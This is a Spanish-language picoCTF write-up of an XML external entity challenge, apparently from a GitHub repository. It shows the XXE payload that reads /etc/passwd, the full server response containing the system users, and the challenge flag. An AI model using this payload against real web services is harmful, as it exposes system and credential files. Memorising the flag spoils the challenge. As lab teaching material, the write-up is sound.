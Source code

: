 ## Objetivo
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

## Solución
Interceptamos la solicitud con BurpSuift y notamos que está mandando por post un XML, lo modificamos para que quede así:
```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data><ID>&file;</ID></data>
```

Y finalmente nos regresa esto:

```
HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.8.10
Date: Tue, 01 Oct 2024 20:20:40 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1023
Connection: close

Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}
```

el cual tiene la flag:
picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}


## Notas Adicionales


## Referencias
